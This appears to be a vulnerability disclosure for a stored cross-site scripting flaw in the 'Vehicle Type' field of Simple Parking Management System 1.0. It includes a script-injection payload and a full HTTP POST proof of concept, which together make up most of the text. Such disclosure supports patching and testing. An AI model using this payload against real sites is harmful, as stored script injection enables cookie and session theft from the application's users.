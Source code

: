 #### Title: Simple Parking Management System 1.0 Stored Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 10.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-simple-parking-management-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/POC.md


#### Description：
####   Simple Parking Management System is vulnerable to Stored cross-site scripting on the category add deatils page. The "Vehicle Type" parameter in 'http://localhost/ci_spms/admin/category' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.


#### Payload used:
`"><script>alert("XSS")</script>`


 ### POC

```
POST /ci_spms/admin/category HTTP/1.1
Host: localhost
Content-Length: 130
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_spms/admin/category
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=81rl2n6fdvfm0jukf6uehmqffaptj876
Connection: close

parking_area_no=2&vehicle_type=%22%3E%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E&vehicle_limit=15&parking_charge=4&send=Submit
```

![image](https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/2.png)

![image](https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/3.png)
